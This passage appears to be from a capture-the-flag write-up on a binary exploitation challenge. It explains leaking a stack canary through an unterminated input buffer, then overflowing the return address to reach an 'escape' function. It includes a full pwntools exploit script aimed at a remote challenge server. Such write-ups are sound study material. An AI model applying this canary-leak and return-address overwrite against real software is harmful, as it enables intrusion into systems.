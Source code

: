```c
  else {
    puts("Wrong, go away !");
  }
  if (canary != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

As we can see from this code, even if we do generate the correct key using the strategy from the fruit_basket challenge to hack the seed, not only it does not give us shell nor does it leak any data. We can see that the buffer being read in the first try is 80. So, we can overflow our input buffer and overwrite our randomly generated string to be the same as our input. But making our guess right with an overflow does not help us either. Instead, if we make a wrong guess, we are given our input. We can see that the input is not being null terminated after being read. So, we can leak the canary by writing our buffer all the way up to our canary but also make the two strings that will be compared not equal. Because we want that leak. Then we will use the second input to overflow and write to the return address the address of our escape function.

Here is the python script for the solution:

```py
#!/usr/bin/env python

from pwn import ELF, ROP, context, log, p64, process, remote

context.log_level = "debug"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./chal")

# p = process(elf.path)
p = remote("34.70.212.151", 8005)

r = ROP(elf)

ret = r.find_gadget(["ret"])[0]
escape = elf.symbols["escape"]

# gdb.attach(
#     p,
#     """
#     set follow-fork-mode child
#     break 0x00401564
#     continue
#     """,
# )

payload = b"A" * 32
payload += b"B" * 40

p.sendlineafter(b"Enter key : ", payload)
p.recvline()
canary = b"\x00" + p.recvline().strip()[:7]
log.info(f"canary: {canary}")
payload = payload + canary + p64(ret) + p64(0x00401596)

p.sendlineafter(b"Enter key : ", payload)
# p.recv()
p.interactive()
```
